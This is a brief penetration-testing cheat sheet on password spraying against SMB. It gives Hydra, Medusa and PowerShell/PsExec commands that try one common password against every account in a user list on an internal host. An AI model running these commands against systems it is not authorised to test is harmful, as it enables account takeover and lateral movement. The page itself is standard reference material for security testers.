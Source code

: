 # Password attacks

### Hydra

The below command will perform a password attack using a total of 2 attempts per username in the last.\
\
1\. -p \<password> = password\
2\. -e s = try the username as the password

```
hydra -L Common\ users\ list.txt -p Password1 -e s -V 192.168.95.11 smb
```

### Medusa

The below command will perform 1 password attack against each username in the list.

1. \-p \<password> = password

```
medusa -h 192.168.95.11 -U Common\ users\ list.txt -p Welcome1 -M smbnt -m GROUP:DOMAIN
```

### Powershell

```
ForEach ($file in (Get-Content "list.txt")) {write-host "Attempting user: $file" -ForegroundColor red ;.\PsExec.exe -u $file -p 'Password1' cmd.exe}
```

## Password cracking training

{% embed url="https://in.security/technical-training/password-cracking/" %}
